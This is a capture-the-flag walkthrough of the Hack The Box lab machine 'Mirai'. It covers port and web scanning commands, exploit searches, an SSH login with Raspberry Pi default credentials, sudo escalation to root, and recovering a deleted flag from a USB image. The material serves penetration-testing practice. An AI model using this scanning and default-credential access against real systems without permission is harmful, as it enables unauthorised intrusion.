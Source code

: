 # [Mirai](https://app.hackthebox.eu/machines/64)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.48 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS --script "default,safe" -p $tcpports -oA tcp --open -Pn -sV 10.10.10.48 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.48
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.48
```

The TCP quick scan returns the following:

![nmap_tcp_quick](./mirai/nmap_tcp_quick.png)

Looking at DNS for any domains does not work:

```bash
host -t ns 10.10.10.48 10.10.10.48
```

![dns](./mirai/dns.png)

With all the services and versions, look for exploits:

```bash
searchsploit dnsmasq 2.76
searchsploit lighttpd 1.4
searchsploit platinum upnp
```

![dnsmasq](./mirai/dnsmasq.png)

![lighttpd](./mirai/lighttpd.png)

![platinum](./mirai/platinum.png)

Of the ones that are applicable, they are all under the DOS category. Moving on... Start the following web scanners:

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# start scanners
nikto -h http://10.10.10.48/ --maxtime=120s --output=nikto.txt
gobuster dir -t 100 -q -z -o gobuster.txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\
  -u http://10.10.10.48/ &
```

The `gobuster` scan returns some interesting directories:

![gobuster](./mirai/gobuster.png)

Looking at `http://10.10.10.48/versions` returns a text file with the following content:

```
,v3.1.4,v3.1,v2.1
```

Nothing interesting here. Browsing to `/admin` shows the following:

![pihole](./mirai/pihole.png)

Okay, getting somewhere. Looking at the bottom of the page fixes the mystery of `/versions`:

![versions](./mirai/versions.png)

Searching for exploits returns the following:

```bash
searchsploit pi hole
```

![pihole_v](./mirai/pihole_v.png)

These require valid credentials. Moving on... The full `nmap` TCP scan should have finished and returns a new port & service:

- `32400/tcp open  http    Plex Media Server httpd`

This webserver has the following login page:

![plex](./mirai/plex.png)

Trying some simple logins does not work and looking for exploits does not turn up much :

![plex_v](./mirai/plex_v.png)

At this point, some more Goolge searches shows that the Pi-Hole service is used on RaspberryPi's for network-wide Ad blocking:

- https://pi-hole.net/
- https://www.smarthomebeginner.com/pi-hole-setup-guide/

RaspberryPis have a default login for their pre-built images `pi/raspberry`:

- https://www.raspberrypi.org/documentation/linux/usage/users.md

Trying this login for SSH provides an easy login & `user.txt`:

```bash
find / -iname user.txt -exec ls -lad {} \; 2>/dev/null
```

![user](./mirai/user.png)

Further enumeration shows that this user also has full access as `root` via `sudo` without having to know the password:

```bash
sudo -l
```

![sudo](./mirai/sudo.png)

However, `root.txt` is not as easy:

```bash
sudo su
find / -iname root.txt -exec ls -lad {} \; 2>/dev/null
```

![fake_root](./mirai/fake_root.png)

From this, look at mounted devices:

```bash
mount
lsblk
```

![devices](./mirai/devices.png)

Seems like the USB stick is mounted at `/media/usbstick`. However, this still does not give `root.txt`:

```bash
cd /media/usbstick
ls -la
cat damnit.txt
```

![james](./mirai/james.png)

If the files were just "deleted" and not wiped, then it is possible that the contents of `root.txt` are still on the USB:

```bash
dd if=/dev/sdb of=/tmp/usb.img conv=sync,noerror
strings /tmp/usb.img
```

![root](./mirai/root.png)

And this returns the flag!